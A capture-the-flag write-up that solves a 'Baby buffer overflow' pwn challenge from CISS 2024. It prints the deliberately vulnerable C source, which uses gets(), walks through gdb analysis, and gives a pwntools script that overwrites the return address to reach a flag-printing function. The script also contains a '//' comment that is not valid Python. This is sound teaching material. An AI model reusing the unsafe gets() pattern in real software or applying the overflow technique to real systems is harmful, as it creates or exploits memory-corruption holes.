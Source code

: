 ```yaml
---
layout: post
title: "Baby buffer overflow - CISS 2024"
---
```


# Background

This is a pwn challenge from CISS2024, unfortunately this was eventually cancelled because they reused challenges and solutions were found half-way through the ctf :(

# Start

Very simple bof problem just by looking at the source code.

```C
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1 

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```
> dont ask me why its in german

The usual `gets()` function where it excepts whatever the user throws at it until it receives a `\n` character. This allows us to input more than the allocated size of the buffer.

# More info

A quick `checksec` reviews that there are no protection mechanisms on the binary. 

![Pasted image 20240919222132](https://github.com/user-attachments/assets/e179b3ac-aee5-46fb-9ace-78341bdf8e07)
>maybe its a bit too easy

We also find out the binary is 64bit.
# Exploit

![Pasted image 20240919222524](https://github.com/user-attachments/assets/b26968c6-0140-486b-8f4d-d5ab924a20f2)

A quick gdb tour tells us the address of `name_user` buffer at `rbp - 0x40` is loaded into `rax` at `*gruss + 101` then its moved into `rsi` for `printf`.

We then set a break point at `*gruss + 105`

![Pasted image 20240919223120](https://github.com/user-attachments/assets/2bbd72b8-4e99-4c3c-84b0-5b1ec6482899)

After we hit the breakpoint we can take a look at the registers

![Pasted image 20240919223403](https://github.com/user-attachments/assets/369d8bb0-a69b-4a71-9b3f-36dfdeca3b25)

We obtain the address of `rbp` and from the disassembled code of the `gruss` function, we know that `rbp - 0x40` is where the input buffer starts. 

![Pasted image 20240919223739](https://github.com/user-attachments/assets/71453b2d-af64-470c-9cfb-d8d71490e111)

Taking a look at the stack values we indeed see the `A`'s we send. We also see the return address that we have to overflow at `rbp + 8`. Our job here is very easy because there is no canary for this binary.

![Pasted image 20240919224614](https://github.com/user-attachments/assets/e6a3dc70-447b-4754-8c53-e5474987804e)

We then disassemble the `spass` function which prints out the flag. Because there is no PIE the address of the function will always be `0x4011d2`.

# More exploit

Knowing the offset and what we have to overflow, we craft a simple exploit script.

```python
from pwn import *

context.binary = "/home/kali/greetings"
p = process('/home/kali/greetings')

// 64 buffer + 8 = 72
payload = b'A' * 72 + p64(0x4011d2)

p.sendline(payload)
p.interactive()
```
![Pasted image 20240919224227](https://github.com/user-attachments/assets/6af9b391-a7d2-48b6-ace2-fa512a7fd386)

Great!
